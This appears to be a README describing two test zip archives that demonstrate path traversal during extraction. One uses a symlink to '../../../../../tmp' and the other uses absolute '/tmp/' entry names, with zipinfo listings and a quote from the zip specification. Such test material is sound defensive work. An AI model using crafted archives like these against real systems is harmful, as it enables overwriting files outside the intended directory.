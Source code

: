 # Path  traversal with zip archive

Two examples of zip files that break the current directory and extract a file to the `/tmp/`


 First archive contains symlink `path` to `../../../../../tmp`
```bash
$ zipinfo symlink.zip

Archive:  symlink.zip
Zip file size: 330 bytes, number of entries: 2
lrwxr-xr-x  3.0 unx       18 bx stor 18-Jun-14 13:26 path
-rw-r--r--  3.0 unx        0 bx stor 18-Jun-14 11:46 path/file.txt
2 files, 18 bytes uncompressed, 18 bytes compressed:  0.0%
```
#
Second archive contains file with target directory `/tmp/` (according [zip format speciffication ](https://pkware.cachefly.net/webdocs/casestudies/APPNOTE.TXT)this is not correct)

>4.4.17.1 The name of the file, with optional relative path.
The path stored MUST not contain a drive or
         device letter, or a leading slash. 
              

```bash
$ zipinfo absolutepath.zip

Archive:  absolutepath.zip
Zip file size: 289 bytes, number of entries: 2
drwxr-xr-x  2.1 unx        0 bx stor 18-Jun-13 23:13 /tmp/
-rw-r--r--  2.1 unx        5 bX defN 18-Jun-13 23:13 /tmp/file.txt
2 files, 5 bytes uncompressed, 7 bytes compressed:  -40.0%
```